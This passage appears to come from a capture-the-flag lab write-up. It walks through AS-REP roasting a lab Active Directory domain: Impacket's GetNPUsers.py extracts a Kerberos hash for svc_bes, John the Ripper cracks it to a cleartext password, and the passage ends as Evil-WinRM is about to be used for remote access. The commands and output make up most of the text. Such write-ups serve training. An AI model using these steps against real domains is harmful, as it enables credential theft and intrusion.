 - _request_: Requests TGT for users and output them in JtR/hashcat format (default False).
- _no-pass_: Don't ask for password (useful for Kerberos authentication).
- _dc-ip_: IP Address of the domain controller.
- _format_: Format to save the AS_REQ of users without pre-authentication. Default is hashcat.

This outputs:

```console
$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py MEGACORP.LOCAL/svc_bes -dc-ip 10.10.10.30 -request -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:8576c42381f7fdd8c60f78915def4303$c93a0b635c08240ed73a946bdeb03968c238f8f3907a9c0d72126cd65953335f4e014c200dd27c54d709fb737a1d9a452c6719f5e1250fd7c7ace2579636e628eb2bec468920bc07e191909af1af774cc9b142573e008558362ffae11f56e5014852dafd4703f0d95aa4ed9044f95db8d5b473c51f8cf6a254ff708bc88ab70d071ca6f9012e330a1b5e56b1c1ecdda69764317a284af5531763d9d278ccc4cd77da7891bfbccce6bc7064bf462f5baa22bf78895e19d860cf12237c63da47c10643f46cd119617990ef4ec9afa605ee7e8a72bb881192c28813eb7d1b11d144589a2a5f480429eef52e46a90537e890
```

We grabbed the ticket. Now it's time to power up [John the Ripper](https://www.openwall.com/john/) and crack the hash. First, copy that hash to the file, then run the john.

```console
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

This outputs:

```console
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Sheffield19      ($kr5asrep$23$svc_bes@MEGACORP.LOCAL)
1g 0:00:00:03 DONE (2021-09-25 16:44) 0.2557g/s 2712Kp/s 2712Kc/s 2712KC/s Shokat_2..Shanelee
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We got the password for `svc_bes`!

```yml
username: svc_bes
password: Sheffield19
```

Since we have the username and password, we can use the [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) tool.

> You can install it by typing `gem install evil-winrm`.
{: .prompt-info}

Let's run the tool for the `svc_bes` account. 

